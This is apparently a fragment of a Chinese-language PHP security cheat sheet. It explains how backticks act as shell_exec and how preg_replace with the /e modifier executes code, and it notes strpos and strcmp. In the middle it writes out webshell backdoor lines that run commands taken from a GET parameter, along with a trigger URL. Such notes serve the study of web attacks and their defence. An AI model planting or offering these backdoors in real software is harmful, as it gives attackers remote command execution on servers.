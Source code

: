 反引号 `

反引号 ` 可以调用 shell_exec 正常执行代码


```
`$_GET['v']` 相当于 shell_exec($_GET['v'])
preg_replace()
```

触发条件：

第一个参数需要e标识符，有了它可以执行第二个参数的命令
第一个参数需要在第三个参数中的中有匹配，不然echo会返回第三个参数而不执行命令，举个例子：



```
// 这样是可以执行命令的
echo preg_replace('/test/e', 'phpinfo()', 'just test');
// 这种没有匹配上，所以返回值是第三个参数，不会执行命令
echo preg_replace('/test/e', 'phpinfo()', 'just tesxt');
```

我们可以构造这样的后门代码



```
@preg_replace("//e", $_GET['h'], "Access Denied");
echo preg_replace("/test/e", $_GET["h"], "jutst test");
```

当访问这样这样的链接时就可以被触发


```
http://localhost:8000/testbug.php?h=phpinfo();
```

#### 常见函数
strpos — 查找字符串首次出现的位置
strcmp - 比较两个字符串
	
本函数返回：  
0 - 如果两个字符串相等  
<0 - 如果 string1 小于 string2  
\>0 - 如果 string1 大于 string2  

$GLOBALS